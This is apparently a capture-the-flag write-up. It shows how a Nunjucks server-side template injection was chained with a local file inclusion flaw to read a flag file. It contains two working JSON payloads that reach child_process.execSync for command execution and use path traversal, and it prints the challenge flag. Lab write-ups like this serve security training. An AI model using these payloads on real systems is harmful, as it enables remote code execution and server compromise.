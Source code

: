 SSTI with nunjucks
The application renders the code the user submits before saving it to a file. There is also a LFI vulnerability that allows us to render our own files. 

As such, first write your SSTI payload to a file. As the loaded file needs to have the njk extension, we ensure our payload accounts for that
```json
{"pickup":"123456.njk{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail flag.txt')\")()}}","pickupNum":2}
```

Then, render the file using the LFI vulnerability
```json
{"pickup":"123456.njk{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail flag.txt')\")()}}","pickupNum":"/../../user_compliments/22696bfbbd71e2b0a16ce6e1801bdc7e_123456"}
```

Flag
```YBN24{MAstER_P1ckUP_aRt!St}```